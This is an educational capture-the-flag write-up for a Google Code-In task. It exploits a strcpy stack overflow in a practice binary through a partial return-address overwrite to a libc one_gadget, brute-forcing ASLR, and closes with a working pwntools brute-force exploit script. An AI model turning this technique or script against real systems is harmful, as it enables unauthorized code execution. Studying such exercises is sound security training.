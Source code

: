 +++
title = "GCI - Fedora Project - Exploiting a Buffer Overflow Vulnerability"
date = 2019-12-15
updated = 2020-12-27
aliases = ["/posts/5df6fd3b0898260951d4389b-gci-fedora-project-exploiting-a-buffer-overflow-vulnerability"]
[taxonomies]
tags = ["google-code-in", "binary-exploitation", "buffer-overflow", "aslr", "rce"]
categories = ["ctf-writeups"]
+++

# Challenge

We are given a binary to exploit. By running `checksec` on it, we see that the binary has the following protections:
[show-line-numbers]: false
```
Canary                        : No
NX                            : Yes
PIE                           : Yes
Fortify                       : No
RelRO                         : Partial
```

Because the binary has NX, we cannot place executable shell code in a buffer and then jump to it. PIE allows the code 
section of the binary to be located anywhere in memory. This means that we don't know the address of functions within 
the binary; however, we still know relative offsets.


## Reverse Engineering

```
Dump of assembler code for function main:
   0x0000000000001145 <+0>:     push   rbp                                  # Setup Stack
   0x0000000000001146 <+1>:     mov    rbp,rsp                              
   0x0000000000001149 <+4>:     sub    rsp,0x110                            # Allocate 0x110 bytes on stack
   0x0000000000001150 <+11>:    mov    DWORD PTR [rbp-0x104],edi            # Copies edi into stack offset 0x104
   0x0000000000001156 <+17>:    mov    QWORD PTR [rbp-0x110],rsi            # Copies rsi into stack offset 0x110
   0x000000000000115d <+24>:    mov    rax,QWORD PTR [rbp-0x110]            # Copies value of pointer into rax
   0x0000000000001164 <+31>:    add    rax,0x8                              # Adds size_t
   0x0000000000001168 <+35>:    mov    rdx,QWORD PTR [rax]                  # Copies the value of the pointer [rax + 8] into rdx
   0x000000000000116b <+38>:    lea    rax,[rbp-0x100]                      # Loads the address of [rbp - 0x100] into rax
   0x0000000000001172 <+45>:    mov    rsi,rdx                              # rsi = rdx
   0x0000000000001175 <+48>:    mov    rdi,rax                              # rdi = rax
   0x0000000000001178 <+51>:    call   0x1030 <strcpy@plt>                  # Calls strcpy(rsi, rdi) ; strcpy ([rbp - 0x100], argv[1])
   0x000000000000117d <+56>:    lea    rax,[rbp-0x100]                      # Loads address of [rbp-0x100] into rax
   0x0000000000001184 <+63>:    mov    rdi,rax                              # rdi = rax
   0x0000000000001187 <+66>:    call   0x1040 <puts@plt>                    # puts(rdi)
   0x000000000000118c <+71>:    mov    eax,0x0                              # return 0
   0x0000000000001191 <+76>:    leave                                       
   0x0000000000001192 <+77>:    ret                                         
End of assembler dump.
```

<!-- more --> 

We can see that `argv[1]` is copied into a 0x100 byte buffer on the stack. However, there are no checks on the size of `argv[1]`. This is plainly a stack overflow vulnerability. 

## Exploit

Now that we have an understanding of what the binary does, we can construct a payload to get code execution. Since the canary is not enabled, we can overwrite the return address. However, because of PIE and ASLR, we don't have any clear targets to jump to.


### Where do we jump?

The binary is dynamically linked and uses the system libc. We can find targets within the binary, when jumped to, result in a call to `execve("/bin/sh", NULL, NULL)` and lead to "a shell".  The tool [one_gadget](https://github.com/david942j/one_gadget) finds offsets to these one gadgets within a given libc binary. Running `one_gadget libc.so.6` gives the following output:

![](5df7042c0898260951d4389c.png)


However, we don't know the base address that libc is loaded at.


### How?

Generally, the libc runtime handles initializes itself before calling `main`. This means that when `main` returns, we end up within libc. In fact, in this [asciinema](https://asciinema.org/a/JRs1KT1HQCoDUSDAmW1r6CCcC), we see that `main` returns to `__libc_start_main` within libc. 

If we overflow the buffer, we can overwrite this address. We could overwrite the entire return pointer, but what if we only overwrote it partially? This is known as a partial overwrite. Since all functions within libc have the same base address, we can overwrite the lower bytes of the return pointer to jump to any known offset within libc.

### One small problem

When `strcpy` is called, it adds a null byte to the end of the destination buffer. If we attempt a partial overwrite, this will result `0x00` being placed within the return pointer.

To overcome this, we can bruteforce ASLR by repeatedly running the program until libc is loaded in a position that matches the overwritten return pointer. We need to bruteforce 1.5 bytes (because the one_gadget is `4f2c5`, we only need to bruteforce the upper half of `0x?4` and the null byte before it). This means that, on average, we will need to execute the program `4096` times before successfully reaching a shell.

## Full Script

{{ asciinema(id="vaUS0kLREa4r92cFJuaipXW5u") }}

```python
from pwn import *

while True:
        try:
                r = process(['./exploitme', 'A'*264 + '\xc5\xf2\x04'])
                r.sendline('ls')
                print(r.can_recv())
                r.interactive()
        except EOFError:
                pass
```


> This is a writeup for this [Google Code-In task](https://codein.withgoogle.com/dashboard/task-instances/5481487256780800/)
